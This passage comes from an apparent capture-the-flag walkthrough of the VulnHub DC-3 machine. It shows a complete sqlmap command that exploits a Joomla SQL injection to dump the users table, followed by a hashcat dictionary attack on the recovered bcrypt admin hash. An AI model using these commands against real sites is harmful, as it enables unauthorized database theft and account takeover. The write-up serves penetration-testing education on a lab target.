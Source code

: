 It's a longer list, but we're seeing a `#__users` table. Let's go ahead and `--dump` it's data.

- `sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T "#__users" --dump -p list[fullordering]`
  - Replace `--tables` with `-T "#__users"` --> this specifies the table
  - Add option `--dump` --> this will dump all the data in the #__users table.
    - It might ask "do you want to use common column existence check".. answer `y`
    - When asked about which dictionary to use, default #1 is fine.
    - 1 thread is fine. Press enter to run the default speed.

![MySQL Table Dump!](/images/CTF/VulnHub/DC-Series/DC-3/MySQL-table-column-dump.png "MySQL Table Dump!")

Nice! We end up with a dump showing the details of the username admin, including the password hash!

---

### Cracking hashes with hashcat

Before we can crack the hash, we need to do two things.
1. Move the hash into a file for hashcat.
2. Figure out what hash algorithm was used.

Let's place `$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu` into a file, so we can feed it to `hashcat`
- `echo '$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu' > dc-3-mysql-hash-dump.txt`

After researching the hash on google, I found that hashes starting with `$2y$` are bcrypt. We tell hashcat it's bcrypt with option `-m 3200`

Now that we know the hashing algorithm and the hash is inside a file, let's run hashcat!
- `hashcat -m 3200 -a 0 dc-3-mysql-hash-dump.txt /usr/share/wordlists/rockyou.txt`
  - `-m 3200` --> specifies bcrypt hash algorithm
  - `-a 0` --> tells hashcat to run a straight attack, it runs against each word in the dictionary without character alteration
  - `*.txt` --> is the files containing the hashes
  - `/*/wordlist.txt` --> specifies the location of the wordlist
